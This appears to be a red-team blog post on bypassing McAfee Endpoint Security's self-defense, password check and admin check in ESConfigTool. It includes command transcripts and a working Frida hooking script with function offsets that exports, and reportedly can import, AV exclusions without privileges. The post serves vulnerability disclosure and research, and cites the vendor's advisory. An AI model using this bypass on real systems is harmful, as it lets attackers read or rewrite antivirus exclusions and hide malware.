# Bypass McAfee with McAfee
## Introduction
I wasn't actually planning on writing this blog. Not because it's super secretive or anything, but because I'm super lazy. But [@fsdominguez](https://twitter.com/fsdominguez) and [@\_dirkjan](https://twitter.com/_dirkjan) forced me. So here we are ¯\\_(ツ)_/¯.

This is a story about how I used McAfee tools to bypass McAfee Endpoint Security during a (very TIBER-y) Red Team assignment we (aforementioned people and myself) were running. Let's go.

## McAfee
In "ye olden days", whenever we would encounter McAfee Virus Scan Enterprise (VSE) on a pentest our hearts would crack a little smile. This is because it used to be super easy to get all the exclusions an administrator had created by simply querying the registry.

For this assigntment though, things turned from a little smile to a big frown. Why? They were using McAfee Endpoint Security. And somewhere between the VSE days and now someone at McAfee decided it was probably a good idea to not store information like exclusions in plaintext at a location that was readable by anyone.

Crap.

Where do we stuff our binaries now?

## ESConfigTool
As it turns out, McAfee Endpoint Security ships with a program called "ESConfigTool". This program can be used to import and export configuration files. It's usage is described [here](https://docs.mcafee.com/bundle/endpoint-security-10.6.0-installation-guide-unmanaged-windows/page/GUID-31F0BE99-2186-4C4E-B0E3-96F3FED8DF49.html).

As it turns out, to get the settings from McAfee Endpoint Security you need:

* The unlock password
* Administrative privileges

Neither of which we had.

Crap.

Let's download an evaluation version of McAfee Endpoint Security and see if there is anything we can do.



## Reversing
Now, this is where things get a bit tricky. I'm about as proficient at reverse engineering as a drunken monkey is at flinging poop. Kind of hit-or-miss.

So, let's start at the beginning for once and see if we can actually get the tool to work. I've created three exclusions:

* C:\\Windows\\Temp\\
* *mimikatz.exe
* C:\\TotallyLegit\\



I've also protected the settings with the password: ***starwars***.



Let's open up an admin command prompt and see if we can get the settings.

```
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>"C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\ESConfigTool.exe" /export C:\Export.xml /module TP /unlock starwars /plaintext
Command executed successfully. Please refer to Endpoint Security logs for details

C:\Windows\system32>
```

Let's open up the XML and see if our exclusions are in there:

```xml
<EXCLUSION_ITEMS>
    <EXCLUSION_ITEM>
        <EXCLUSION_BY_NAME_OR_LOCATION>C:\Windows\Temp\</EXCLUSION_BY_NAME_OR_LOCATION>
        <EXCLUSION_FILE_TYPE />
        <EXCLUSION_BY_FILE_AGE>0</EXCLUSION_BY_FILE_AGE>
        <EXCLUSION_TYPE>3</EXCLUSION_TYPE>
        <EXCLUSION_EXCLUDE_SUBFOLDERS>1</EXCLUSION_EXCLUDE_SUBFOLDERS>
        <EXCLUSION_ON_READ>1</EXCLUSION_ON_READ>
        <EXCLUSION_ON_WRITE>1</EXCLUSION_ON_WRITE>
        <EXCLUSION_SOURCE>0</EXCLUSION_SOURCE>
    </EXCLUSION_ITEM>
    <EXCLUSION_ITEM>
        <EXCLUSION_BY_NAME_OR_LOCATION>**\*mimikatz.exe</EXCLUSION_BY_NAME_OR_LOCATION>
        <EXCLUSION_FILE_TYPE />
        <EXCLUSION_BY_FILE_AGE>0</EXCLUSION_BY_FILE_AGE>
        <EXCLUSION_TYPE>3</EXCLUSION_TYPE>
        <EXCLUSION_EXCLUDE_SUBFOLDERS>0</EXCLUSION_EXCLUDE_SUBFOLDERS>
        <EXCLUSION_ON_READ>1</EXCLUSION_ON_READ>
        <EXCLUSION_ON_WRITE>1</EXCLUSION_ON_WRITE>
        <EXCLUSION_SOURCE>0</EXCLUSION_SOURCE>
    </EXCLUSION_ITEM>
    <EXCLUSION_ITEM>
        <EXCLUSION_BY_NAME_OR_LOCATION>C:\TotallyLegit\</EXCLUSION_BY_NAME_OR_LOCATION>
        <EXCLUSION_FILE_TYPE />
        <EXCLUSION_BY_FILE_AGE>0</EXCLUSION_BY_FILE_AGE>
        <EXCLUSION_TYPE>3</EXCLUSION_TYPE>
        <EXCLUSION_EXCLUDE_SUBFOLDERS>1</EXCLUSION_EXCLUDE_SUBFOLDERS>
        <EXCLUSION_ON_READ>1</EXCLUSION_ON_READ>
        <EXCLUSION_ON_WRITE>1</EXCLUSION_ON_WRITE>
        <EXCLUSION_SOURCE>0</EXCLUSION_SOURCE>
    </EXCLUSION_ITEM>
</EXCLUSION_ITEMS>
```

Neat! That works. But this was done using administrative privileges *and* the correct password. Let's attach a debugger and see how it works.

## Self-defense
Normally attaching a debugger would just be a case of opening your debugger, selecting your binary and perhaps adding some command-line arguments. However, since we are dealing with a security solution there are some additional hurdles. One big one is that most of McAfee's compontents are protected by the "Self-defense" feature of the product. If you try to attach your debugger you will immediatly get a "Debugging stopped" message and McAfee will shout at you in the Self Defense log file.



```
12/10/2019 12:47:09   mfeesp(2204.6392) <SYSTEM> ApBl.SP.Activity: DESKTOP-DNUK2R5\admin ran X64DBG.EXE, which attempted to access ESCONFIGTOOL.EXE, violating the rule "Core Protection - Protect McAfee processes from unauthorized access and termination", and was blocked. For information about how to respond to this event, see KB85494.
12/10/2019 12:47:09   mfeesp(2204.5404) <SYSTEM> ApBl.SP.Activity: DESKTOP-DNUK2R5\admin ran X64DBG.EXE, which attempted to access ESCONFIGTOOL.EXE, violating the rule "Core Protection - Protect McAfee processes from unauthorized access and termination", and was blocked. For information about how to respond to this event, see KB85494.
```

Now, after some trial and error, I found a way to bypass the Self Defense mechanism using a "Super 1337, z3r0 d4y, APT-style nation state" technique. Are you ready?

```
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\admin>mkdir \temp

C:\Users\admin>cd \temp

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\ESConfigTool.exe" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\blframework.dll" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\EpSecApiLib.dll" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\McVariantExport.dll" .
        1 file(s) copied.

C:\temp>copy "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\LogLib.dll" .
        1 file(s) copied.

C:\temp>
```

That's it? That's it! You don't even need admin privileges. Any regular user can do this. Great success! Now it's just a matter of attaching a debugger and we're ready to rock:



..now what?

## Bypassing the password check
Let's see what happens when we use an incorrect password. Maybe it'll give us some strings to search for:

```
C:\Windows\system32>"C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\ESConfigTool.exe" /export C:\Export.xml /module TP /unlock startrek /plaintext
There were some errors while executing command. Please refer to Endpoint Security logs for details

C:\Windows\system32>
```

Hmm, that's pretty generic. The McAfee log file offers more information though:
```
10/12/2019 01:11:46.400 PM ESConfigTool(5476.8840) <admin> ESConfigTool.ESConfigTool.Error (ImportExportUtil.cpp:677): Failed to unlock client settings with user supplied password, TriggerAction failed
```

Let's search for strings in our debugger and see if we can find the place this error is coming from.


Sweet, if we breakpoint this and run again it'll hit that breakpoint. If we then look at what happened just before that breakpoint we can see there was a fucntion call to something called "BLInvokeMethod" followed by a jump that was not taken in our case:



At this point we have a decision to make. We can either:

1. Dive into the password check function, see how it works, and try to crack the password.
2. Let the password function run and change it's return value.

Obviously, because I'm very lazy, I went with option 2. When a wrong password is entered, an error code is placed in the RAX register by the password check function:



If the correct password is supplied, the value of the RAX register is 0:



So what happens if we supply the wrong password, break on the password check function, and change the RAX register to 0? Let's try!



No way it worked!




Turns out the password check is only done by the tool itself. It's not really needed to decrypt or export the actual configuration. That's one down, one to go.

## Bypassing the admin check
While entering a wrong password would give you a (kind of) clear error message, running the tool without admin privileges just prints the help text:

```
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\user>"C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\ESConfigTool.exe" /export C:\temp\Export.xml /module TP /unlock starwars /plaintext
Description:
      Endpoint security configuration tool for exporting and importing policy configuration. User needs administrator privileges to run this utility. Utility needs password if the client interface is password protected. File supplied for import must be an encrypted file.

USAGE:
      ESConfigTool.exe /export <filename> [/module <TP|FW|WC|ESP> ] [/unlock <password> ] [/plaintext ]

      ESConfigTool.exe /import <filename> [/module <TP|FW|WC|ESP> ] [/unlock <password> ] [/policyname <name> ]

      ESConfigTool.exe /help

C:\Users\user>
```

Nothing in the logs, either.

Crap.

How are we going to find out what the admin check does? Let's just run the debugger as a regular user and see what happens. Turns out it calls a function, does a string compare on the return value and calls "*exit*" if the return code isn't 0.


If you follow this function you'll end up at a call to [AllocateAndInitializeSid](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-allocateandinitializesid). All very boring stuff, and not really woth the time of reversing. Let's just try the lazy method again and change the return code.

Digging deeper, it turns out the return value is checked here:


Although this time the return value has to be **anything but** 0.



Ho-ly cow it worked again!


We can now export the configuration from McAfee Endpoint Security, with limited privileges and without knowing the proper password!

## Doing it automatically
It's pretty cool that we got this far, but attaching a debugger every time and changing return values manually is a pain. Luckily, [Frida](https://www.frida.re/) is a thing. For those of you unfamilier with Frida (shame on you), it allows you to do all the cool kid stuff like hooking functions and changing values without the need for any skills other than JavaScript knowledge!

But how do we inject Frida into McAfee? Simple, [frida-server](https://github.com/frida/frida/releases/download/12.7.9/frida-server-12.7.9-windows-x86_64.exe.xz). Just start it up on the machine running McAfee and connect using Python.

### McAfee machine:
```
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\admin>cd \temp

C:\temp>frida-server-12.7.9-windows-x86_64.exe
```

### Python machine:
```python
Python 3.6.7 (default, Oct 22 2018, 11:32:17) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import frida
>>> devmgr = frida.get_device_manager()
>>> devmgr.add_remote_device('192.168.31.150')
Device(id="tcp@192.168.31.150", name="192.168.31.150", type='remote')
>>> rdev = frida.get_device('tcp@192.168.31.150')
>>> args = [
...   'ESConfigTool.exe',
...   '/export',
...   'frida-export.xml',
...   '/module',
...   'ESP',
...   '/unlock',
...   'startrek',
...   '/plaintext'
... ]
>>> pid = rdev.spawn(args)
>>> session = rdev.attach(pid)
>>> session
Session(pid=11168)
```

We are connected and ESConfigTool.exe is running!



We can now inject JavaScript code into the ESConfigTool process.

## The Frida script
I won't go over the process of how to create this script, this blog contains enough information as it is, but here is the completed script:

```javascript
const configBase = Module.findBaseAddress('ESConfigTool.exe');
//const adminCheck = configBase.add(0x5240); //32
const adminCheck = configBase.add(0x5f30); //64
const BLInvokeMethod = Module.findExportByName('blframework.dll','BLInvokeMethod')

console.log('[-] Base address is:',configBase);
console.log('[-] Admin check is:',adminCheck);
console.log('[-] BLInvokeMethod:',BLInvokeMethod);

Interceptor.attach(adminCheck, {
  onEnter: function (args) {
    console.log('[+] Hooked admin check function');
  },
  onLeave: function (retval) {
    console.log('[+] Returning true for admin check');
    retval.replace(1);
  }
});

Interceptor.attach(BLInvokeMethod, {
  onEnter: function (args) {
    console.log('[+] Hooked BLInvokeMethod function');
  },
  onLeave: function (retval) {
    console.log('[+] Patching password check function');
    retval.replace(0x0);
  }
});
```

It does exactly what we were manually doing in our debugger. Change return values. Let's inject the script and see if it works:

```python
>>> script = """
... const configBase = Module.findBaseAddress('ESConfigTool.exe');
... //const adminCheck = configBase.add(0x5240); //32
... const adminCheck = configBase.add(0x5f30); //64
... const BLInvokeMethod = Module.findExportByName('blframework.dll','BLInvokeMethod')
... 
... console.log('[-] Base address is:',configBase);
... console.log('[-] Admin check is:',adminCheck);
... console.log('[-] BLInvokeMethod:',BLInvokeMethod);
... 
... Interceptor.attach(adminCheck, {
...   onEnter: function (args) {
...     console.log('[+] Hooked admin check function');
...   },
...   onLeave: function (retval) {
...     console.log('[+] Returning true for admin check');
...     retval.replace(1);
...   }
... });
... 
... Interceptor.attach(BLInvokeMethod, {
...   onEnter: function (args) {
...     console.log('[+] Hooked BLInvokeMethod function');
...   },
...   onLeave: function (retval) {
...     console.log('[+] Patching password check function');
...     retval.replace(0x0);
...   }
... });
... 
... """
>>> session.create_script(script).load()
[-] Base address is: 0x7ff73ed30000
[-] Admin check is: 0x7ff73ed35f30
[-] BLInvokeMethod: 0x7ffa4d759730
>>> rdev.resume(pid)
>>> [+] Hooked admin check function
[+] Returning true for admin check
[+] Hooked BLInvokeMethod function
[+] Patching password check function

>>> 
```

Sure looks like it does:


(I know, I'm running it as the "admin" user, but without UAC elevation. Trust me when I say it works with a regular user as well)

## Now what
Well, we finally found a way to get our exclusions! And because it works over a TCP connection, I was also able to do this on our Red Team assignment through a Cobalt Strike beacon. How cool is that!

Even though we only talked about exporting in this blog, it's good to mention that you can also **import** configuration files. This means that you can add your own exclusions, change other settings or even remove the password altogether.

One small footnote here is dat the "*/plaintext*" parameter can be a bit.. iffy. Sometimes it works, sometimes it doesn't. Maybe different versions need different function offsets? Who knows. I wasn't to bothered with this. Because even though McAfee will give you an encrypted configuration without this parameter, you can simply import that encrypted configuration into your own evaluation version.

How is the configuration encrypted? Well, more on that later. That is still embargoed information untill the McAfee PSIRT gets a fix out there :).

## Remidiation
Talking about the McAfee PSIRT, they published a security advisory and a fix about this issue [here](https://kc.mcafee.com/corporate/index?page=content&id=SB10299). I've actually not tested to see if it's been fully fixed, and I'm too lazy to bother. 

One thing that did cross my mind though: if they fixed it in ESConfigTool, can you just use an older version of the tool to exploit it on newer versions of McAfee Endpoint Protection? Who knows. I've uploaded the python PoC script [here](mcafee.py) if you want to play around.

Until next time!
